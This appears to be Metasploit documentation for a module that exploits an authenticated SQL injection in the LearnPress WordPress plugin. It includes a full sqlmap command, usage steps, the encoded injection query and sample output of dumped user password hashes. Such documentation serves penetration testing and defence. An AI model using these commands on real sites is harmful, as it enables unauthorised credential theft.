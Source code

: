 ## Vulnerable Application

LearnPress, a learning management plugin for WordPress,
prior to 3.2.6.8 is affected by an authenticated SQL injection via the
`current_items[]` parameter of the `post-new.php` page.

The plugin can be downloaded [here](https://downloads.wordpress.org/plugin/learnpress.3.2.6.7.zip)

This module slightly replicates sqlmap running as:

```
sqlmap -u 'http://<IP>/wp-admin/post-new.php?post_type=lp_order' --cookie '<cookie>' --data "type=lp_course&context=order-items&context_id=32&term=+test&paged=1&lp-ajax=modal_search_items&current_items[]=1" -p "current_items[]" --technique T -T wp_users -C user_login,user_pass --dump --dbms mysql
```

## Verification Steps

1. Install the plugin, use defaults
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_learnpress_sqli`
1. Do: `set username <username>`
1. Do: `set password <password>`
1. Do: `run`
1. You should get the users and hashes returned.

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

## COUNT

If acation `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `3`.

### PASSWORD

The password for a user.

### USERNAME

The username for a user.

## Scenarios

### LearnPress 3.2.6.7 on Wordpress 5.4.4 on Ubuntu 20.04

```
resource (learnpress.rb)> use auxiliary/scanner/http/wp_learnpress_sqli
resource (learnpress.rb)> set rhosts 111.111.1.111
rhosts => 111.111.1.111
resource (learnpress.rb)> set username admin
username => admin
resource (learnpress.rb)> set password admin
password => admin
resource (learnpress.rb)> set verbose true
verbose => true
resource (learnpress.rb)> set count 3
count => 3
resource (learnpress.rb)> run
[*] Checking /wp-content/plugins/learnpress/readme.txt
[*] Found version 3.2.6.7 in the plugin
[+] Vulnerable version detected
[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(CKvFyxDg) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) CKvFyxDg from wp_users limit 3) wmnJO)
[*] {SQLi} Encoded to (select group_concat(CKvFyxDg) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0xd5,0)),ifnull(user_pass,repeat(0x49,0))) as binary) CKvFyxDg from wp_users limit 3) wmnJO)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_learnpress_sqli) > creds
Credentials
===========

host  origin         service  public  private                             realm  private_type        JtR Format
----  ------         -------  ------  -------                             -----  ------------        ----------
      111.111.1.111           admin   $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0         Nonreplayable hash  phpass
      111.111.1.111           editor  $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/         Nonreplayable hash  phpass
      111.111.1.111           admin2  $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1         Nonreplayable hash  phpass
```
